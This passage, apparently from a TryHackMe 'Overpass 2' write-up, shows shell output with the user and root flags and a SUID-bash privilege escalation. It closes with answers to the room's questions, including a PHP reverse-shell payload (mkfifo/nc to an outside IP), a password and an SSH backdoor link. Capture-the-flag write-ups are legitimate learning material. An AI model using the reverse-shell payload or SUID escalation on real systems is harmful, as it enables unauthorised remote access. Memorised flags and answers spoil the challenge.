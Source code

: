 ```bash
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

## PRIVILEGE ESCALATION :

>>There is a .suid_bash file in james home directory which owned by root.
>>If we run that we get our shell as root 

```bash
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www 
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# cd /root 
.suid_bash-4.4# cat root.txt 
thm{d53b2684f169360bb9606c333873144d}
```

----

# ANSWER THE FOLLOWING :
----

1.What was the URL of the page they used to upload a reverse shell?
>>/development/

2.What payload did the attacker use to gain access?
>><?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

3.What password did the attacker use to privesc?
>>whenevernoteartinstant

4.How did the attacker establish persistence?
>>https://github.com/NinjaJc01/ssh-backdoor
